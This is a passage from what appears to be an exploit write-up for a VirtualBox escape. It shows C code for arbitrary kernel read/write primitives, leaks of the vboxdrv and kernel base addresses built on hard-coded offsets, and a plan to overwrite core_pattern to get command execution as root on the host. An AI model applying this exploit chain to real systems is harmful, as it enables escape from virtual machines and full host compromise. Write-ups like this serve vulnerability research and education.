 ```c
sll table;

static size_t __attribute__((optimize("O0"))) arb_read(int *inst, char *code, sll addr) {
    
    /* arbitrary read */
    
    return read_table( inst, code, (addr - table)>>3 );
}

static void __attribute__((optimize("O0"))) arb_write(int *inst, char *code, sll addr, size_t val) {
    
    /* arbitrary write */
    
    return write_table( inst, code, (addr - table)>>3, val );
}

table = vmmr0_base + off_table;
// Do kernel arbitrary read/write
addr = <some kernel address>;
arb_read(inst, code, addr);
arb_write(inst, code, addr, val);
```

Now we can read/write arbitrary kernel memory.

### Leaking kernel's base and overwrite core_pattern

The plan is to leak the kernel's base address and overwrite `/proc/sys/kernel/core_pattern` into our own command, so later when VirtualBox crash in ring-3, we'll be able to execute the command with root privilege. 

To get the kernel's base address, I first leak `vboxdrv.ko`'s base address by reading `SUPR0EnableVTx@got.plt` in `VMMR0.r0` ( `SUPR0EnableVTx` is a function in `vboxdrv.ko` ).

```c
size_t got_SUPR0EnableVTx = vmmr0_base + 0x1DB018; // SUPR0EnableVTx@got.plt
size_t vboxdrv_base = arb_read(inst, code, (sll)got_SUPR0EnableVTx) - 0x8a0;
printk(KERN_INFO "vboxdrv_base: %px\n", vboxdrv_base);
```

I then use `vboxdrv_base` to get the kernel's base address. Here's how I leak it:

* At `vboxdrv.ko + 0x15a8a`, there's a `jmp` instruction which will jump to `kfree`, a function in kernel.
* The instruction in machine code is `E9 <4 byte offset>`.
* By reading that 4 byte offset and do some calculation, we'll know where `kfree` actually is, and thus calculate the kernel base address.


```c
// read the 4 byte offset
size_t tmp = arb_read(inst, code, (sll)(vboxdrv_base+0x15a8a+1));
tmp = (tmp >> 24)&0xffffffff; // tmp = 4 byte offset
printk(KERN_INFO "tmp: %px\n", tmp);
signed int kfree_offset = (signed int)(tmp);
printk(KERN_INFO "kfree_offset: %d\n", kfree_offset);
// calculate kernel base
size_t kernel_base = vboxdrv_base + 0x15a8a + 5 + kfree_offset - 0x2a2af0;
printk(KERN_INFO "kernel_base: %px\n", kernel_base);
```
